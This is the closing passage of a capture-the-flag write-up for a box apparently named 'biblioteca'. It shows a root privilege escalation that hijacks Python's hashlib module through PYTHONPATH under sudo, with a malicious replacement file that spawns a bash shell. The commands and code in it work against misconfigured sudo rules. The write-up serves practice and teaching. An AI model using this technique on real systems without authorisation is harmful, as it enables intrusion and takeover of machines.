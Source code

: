 And then copy that over to **/tmp**:

`cp /usr/lib/python3.8/hashlib.py /tmp`

Then we can modify our new file to the following:

```
import pty
pty.spawn("/bin/bash")
```

<br>

## Root

Now that we have our own malicious **hashlib.py** in the **/tmp** directory we can run the **hasher.py** as root using sudo and tell Python to use our file instead of the normal one like this:

`sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py`

```
root@biblioteca:/home/hazel#
```

What happend here is the first line of Python code:  **import hashlib**   goes and tries to find **hashlib.py** and load it for use in the program. We told it to check in /tmp first, which it did, and then loaded hashlib.py from there.

In the **/root** directory we see a **root.txt**:

`wc -c /root/root.txt`

```
31 /root/root.txt
```

<br>

With that we've completed this CTF!

![](images/bibli6.png)

<br>
